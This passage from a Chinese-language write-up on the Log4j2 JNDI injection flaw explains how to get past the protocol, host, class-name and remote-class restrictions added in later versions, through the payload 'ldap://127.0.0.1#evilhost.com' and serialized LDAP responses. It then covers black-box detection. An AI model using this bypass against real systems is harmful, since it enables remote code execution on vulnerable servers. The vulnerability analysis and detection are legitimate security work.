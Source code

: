 

**绕过上述限制实现JNDI注入**

(1) 绕过协议白名单（java、ldap、ldaps）

```
只能使用ldap协议进行JNDI注入。
```

(2) 绕过主机白名单（本机IP127.0.0.1、localhost等）。使用Java的一个trick进行绕过，如下：

```
ldap://127.0.0.1#evilhost.com
当URI#getHost()方法遇到这样的url时，会取#前面，协议://后面的部分作为url的Host.
```

(3) 绕过javaClassName白名单（如java.lang.Boolean、java.lang.Byte、java.lang.Short等）

```
javaClassName这个属性的值是从LDAP服务器返回的数据里取的，而且这个属性的值对于后续的漏洞利用毫无影响，只要修改一下LDAP服务端的代码，将该值的属性改为满足log4j2中要求的值即可。
```

(4) 绕过不能加载远程ObjectFactory类的限制

```
修改LDAP服务器，让其返回序列化数据，这样代码还是会走到最后的this.context.lookup()。在目标服务JNDI lookup的过程中，如果目标环境classpath中包含了可利用的反序列化Gadget，便可实现 RCE。
所以这里实现RCE的另一个条件就是目标环境中存在可被利用的Java反序列化Gadget。
至于LDAP服务的修改，参考《JNDI注入绕过高版本JDK限制》(https://blog.csdn.net/mole_exp/article/details/121141042)，只是添加一个返回序列化数据的功能。
```

**目前这几台主机都不支持ldap://127.0.0.1#evilhost.com这样的形式，暂未复现。**



## 3. 检测与防御

### 3.1 检测漏洞是否存在

**黑盒测试**

大家都知道存在漏洞是因为在打日志的时候存在问题，所以对于黑盒测试而言，只要是能够被服务端获取且被记录的地方都是可能触发漏洞的，比如 header 中的 Cookie、User-agent 等，post 或者 get 的参数中，url 中等，这种只能盲打，根据返回结果来判断。

检测漏洞项目参考：

> https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py

![img](img/a4bb089af6008b42679e7c4ca6398dbe.png)
